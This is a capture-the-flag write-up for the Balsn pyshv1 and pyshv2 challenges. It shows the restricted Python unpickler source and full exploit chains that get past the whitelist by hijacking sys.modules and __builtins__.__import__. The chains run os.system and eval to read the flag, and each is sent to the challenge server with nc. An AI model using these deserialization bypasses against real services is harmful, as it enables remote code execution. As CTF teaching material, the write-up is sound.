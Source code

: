 # pyshv1 (572)

The challenge contains two modules:

```python  
# File: securePickle.py

import pickle, io

whitelist = []

# See https://docs.python.org/3.7/library/pickle.html#restricting-globals  
class RestrictedUnpickler(pickle.Unpickler):  
   def find_class(self, module, name):  
       if module not in whitelist or '.' in name:  
           raise KeyError('The pickle is spoilt :(')  
       return pickle.Unpickler.find_class(self, module, name)

def loads(s):  
   """Helper function analogous to pickle.loads()."""  
   return RestrictedUnpickler(io.BytesIO(s)).load()

dumps = pickle.dumps  
```

```python  
# File: server.py

import securePickle as pickle  
import codecs

pickle.whitelist.append('sys')

class Pysh(object):  
   def __init__(self):  
       self.login()  
       self.cmds = {}

   def login(self):  
       user = input().encode('ascii')  
       user = codecs.decode(user, 'base64')  
       user = pickle.loads(user)  
       raise NotImplementedError("Not Implemented QAQ")

   def run(self):  
       while True:  
           req = input('$ ')  
           func = self.cmds.get(req, None)  
           if func is None:  
               print('pysh: ' + req + ': command not found')  
           else:  
               func()

if __name__ == '__main__':  
   pysh = Pysh()  
   pysh.run()  
```

We can provide a pickled string, and the unpickling is restricted to objects
in the `sys` module. I restrained from writing pickle bytecode by hand and
used only the `__reduce__` API. The only small hack is to create arbitrary
named attributes to be pickled, for example `sys.__dict__`. I wrote this
snippet to help with it:

```python  
import pickle, sys

class FakeMod(type(sys)):  
   modules = {}

   def __init__(self, name):  
       self.d = {}  
       super().__init__(name)

   def __getattribute__(self, name):  
       d = self()  
       return d[name]

   def __call__(self):  
       return object.__getattribute__(self, "d")

def attr(s):  
   mod, name = s.split(".")  
   if mod not in FakeMod.modules:  
       FakeMod.modules[mod] = FakeMod(mod)  
   d = FakeMod.modules[mod]()  
   if name not in d:  
       def f(): pass  
       f.__module__ = mod  
       f.__qualname__ = name  
       f.__name__ = name  
       d[name] = f  
   return d[name]

def dumps(obj):  
   # use python version of dumps  
   # which is easier to hack  
   pickle.dumps = pickle._dumps  
   orig = sys.modules  
   sys.modules = FakeMod.modules  
   s = pickle.dumps(obj)  
   sys.modules = orig  
   return s

a = attr("sys.__dict__")  
print(dumps(a))  
# b'\x80\x03csys\n__dict__\nq\x00.'  
```

Pickle uses `__reduce__` method of objects with a special interface. It allows
to call a function (which has to be picklable, i.e. be the part of the module)
with arbitrary (picklable) arguments. Finally, it allows to update the
`__dict__` of the output of the function, `.append()` objects to it and set
items on it. The following snippet simplifies this API into a single function
call:

```python  
def craft(func, *args, dict=None, list=None, items=None):  
   class X:  
       def __reduce__(self):  
           tup = func, tuple(args)  
           if dict or list or items:  
               tup += dict, list, items  
           return tup  
   return X()  
```  
Now we can, for example, easily dump `sys.__dict__` from the server:

```python  
obj = craft(attr("sys.displayhook"), attr("sys.__dict__"))  
```

```  
{'__name__': 'sys', '__doc__': ..., 'argv': ['/home/pyshv1/task/server.py']}  
```

## pyshv1 solution  
Let's look at the `Unpickler.find_class` method:  
```python  
def find_class(self, module, name):  
   ...  
   __import__(module, level=0)  
   if self.proto >= 4:  
       return _getattribute(sys.modules[module], name)[0]  
   else:  
       return getattr(sys.modules[module], name)  
```

So, pickle relies on the `sys.modules` mapping! Let us replace this attribute
with our own dict so that we can access attributes of objects other than the
actual sys module. In particular, we want to access modules in the mapping, so
we elegantly set `sys.modules[sys] = sys.modules`:

```python  
c1 = craft(  
   attr("sys.__setattr__"),  
   "modules", {"sys": sysattr("modules")}  
)  
```

We can now update module dicts using the `__reduce__` dict API, in particular
the whitelist:  
```python  
c2 = craft(attr("sys.__getitem__"), "securePickle", dict={"whitelist": ["sys",
"os"]})  
```

Now we can actually call e.g. the `os.system`:  
```python  
c3 = craft(attr("os.system"), "id; cat ../flag.txt")  
```

Assembling the full chain:  
```python  
c1 = craft(  
   attr("sys.__setattr__"),  
   "modules", {"sys": sysattr("modules")}  
)  
c2 = craft(attr("sys.__getitem__"), "securePickle", dict={"whitelist": ["sys",
"os"]})  
c3 = craft(attr("os.system"), "id; cat ../flag.txt")  
obj = craft(attr("sys.displayhook"), (c1, c2, c3))

s = dumps(obj)  
s = codecs.encode(s, "base64").replace(b"\n", b"")  
open("inp", "wb").write(s)  
os.system("(cat inp; echo) | nc -v pysh1.balsnctf.com 5421")  
```

```  
uid=1000(pyshv1) gid=1000(pyshv1) groups=1000(pyshv1)  
Balsn{p1Ck1iNg_s0m3_PiCklEs}  
```

# pyshv2 (857)  
In the second challenge the restricted pickle is a bit different. Not it calls
the `__import__` function:  
```python  
class RestrictedUnpickler(pickle.Unpickler):  
   def find_class(self, module, name):  
       if module not in whitelist or '.' in name:  
           raise KeyError('The pickle is spoilt :(')  
       module = __import__(module)  
       return getattr(module, name)  
```

Second, only an *empty* module `structs` is added to the whitelist (*how this
can be insecure???*):  
```python  
pickle.whitelist.append('structs')  
```

The rest is basically the same. In this challenge we have much less tools
compared to the rich `sys` module. However, there is `structs.__builtins__`
which is the same global `__builtins__` module. In particular, the change from
**pyshv1** is the use of the `__import__` function, which we can replace in
`__builtins__`. The idea is somewhat similar to the one with `sys.modules`:
the goal is to access attributes of objects other than the original module.
For achieving this, we replace `__import__` with `structs.__getatttribute__`.
As a result, `__import__("structs").attr` becomes `structs.structs.attr`. We
set the `structs.structs` to `structs.__dict__`: this allows us to call dict
methods:  
```py  
c1 = craft(attr("structs.__setattr__"), "structs", attr("structs.__dict__"))  
c2 = craft(  
   attr("structs.__getattribute__"),  
   "__builtins__",  
   items=[("__import__", attr("structs.__getattribute__"))]  
)  
```  
Let's populate the dict with builtins:  
```py  
bs = craft(attr("structs.get"), "__builtins__")  
c3 = craft(attr("structs.update"), bs)  
```

We can now replace `structs.structs` to the eval function:  
```py  
ev = craft(attr("structs.get"), "eval")  
c4 = craft(attr("structs.__setitem__"), "structs", ev)  
```

Finally, we call eval and assemble the whole chain:  
```py  
c1 = craft(attr("structs.__setattr__"), "structs", attr("structs.__dict__"))  
c2 = craft(  
   attr("structs.__getattribute__"),  
   "__builtins__",  
   items=[("__import__", attr("structs.__getattribute__"))]  
)  
bs = craft(attr("structs.get"), "__builtins__")  
c3 = craft(attr("structs.update"), bs)  
ev = craft(attr("structs.get"), "eval")  
c4 = craft(attr("structs.__setitem__"), "structs", ev)  
c5 = craft(attr("structs.__call__"), r'print(open("../flag.txt").read())')

obj = craft(attr("structs.__setattr__"), "code", [c1, c2, c3, c4, c5])  
s = dumps(obj)  
s = codecs.encode(s, "base64").replace(b"\n", b"")  
open("inp", "wb").write(s)  
os.system("(cat inp; echo) | nc -v pysh2.balsnctf.com 5422")  
```

```  
Balsn{CD_sP33duP_eVe3y7h1nG__Wh0_c4r3s_Th3_c0dE?}

Original writeup
(https://gist.github.com/hellman/b9804ce39ed8c4b1b0bf136459999a61).
